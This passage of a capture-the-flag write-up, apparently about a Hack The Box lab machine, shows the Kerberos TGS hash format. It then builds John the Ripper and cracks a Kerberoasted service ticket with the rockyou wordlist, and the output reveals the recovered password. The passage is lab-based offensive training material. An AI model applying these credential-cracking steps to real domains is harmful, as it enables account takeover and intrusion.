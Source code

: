 ```xml
$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>$<REALM>$<SPN>*$<FIRST_16_BYTES_TICKET>$<REMAINING_TICKET_BYTES>
```

<img src="/assets/images/krb5tgs.png" style="height: 100%; width: auto">


Now that we have a TGS, we can retrieve the Service's password. If you run Kali, you will need to follow these steps for JTR to recognize the format.

```
git clone https://github.com/magnumripper/JohnTheRipper.git && cd JohnTheRipper/src
./configure
make <foo> # <-- see the line of the configure ^
cd ../run
./john --test
```

And then, voilà :)

```
$ ./john /usr/share/wordlists/rockyou.txt tgs.txt # DON'T use --format=krb5tgs
```

```
./john --wordlist=rockyou.txt ~/documents/CTFs/OSCP/HTB/10.10.10.100/CIFS.krb5tgs
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:06 59.23% (ETA: 18:42:03) 0g/s 1421Kp/s 1421Kc/s 1421KC/s donmegaa..donisayangalia
Ticketmaster1968 (?)
1g 0:00:00:07 DONE (2018-10-20 18:42) 0.1342g/s 1414Kp/s 1414Kc/s 1414KC/s Tiffani143..Thrall
Use the "--show" option to display all of the cracked passwords reliably
Session completed

./john --wordlist=~/rockyou.txt ~/documents/CTFs/OSCP/HTB/10.10.10.100/CIFS.krb5tgs
$ ./git/tools/JohnTheRipper/run/john --show ./documents/CTFs/OSCP/HTB/10.10.10.100/CIFS.krb5tgs 
?:Ticketmaster1968

1 password hash cracked, 0 left
```
